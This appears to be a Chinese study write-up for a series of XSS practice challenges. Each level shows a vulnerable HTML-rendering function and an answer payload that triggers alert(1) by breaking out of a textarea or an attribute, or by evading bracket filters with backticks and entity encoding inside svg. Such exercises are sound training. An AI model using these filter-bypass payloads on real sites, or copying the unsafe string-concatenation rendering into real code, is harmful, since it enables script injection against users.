 xss攻击
测试阶段都是以弹出alert(1)为准
标准语法

```js
<script>alert(1)</script>
```

### 0x00

```js
0x00
function render (input) {
  return '<div>' + input + '</div>'
}

<script>alert(1)</script>
```

### 0x01

```
</textarea> <script>alert(1)</script><textarea>
```

### 0x02

```
function render (input) {
  return '<input type="name" value="' + input + '">'
}

<input type="name" value="  
//答案
"><script>alert(1)</script><img    ">
```

### 0x03

```
function render (input) {
  //正则表达式
  const stripBracketsRe = /[   ()    ]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
//答案
<script>alert`1`</script>
```

### 0x04

```
function render (input) {
  const stripBracketsRe = /[     ()`       ]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
实体编码字符
<svg> 翻译官
把符号进行unicode转化
//答案
<svg><script>alert&#40;1&#41;</script>
```
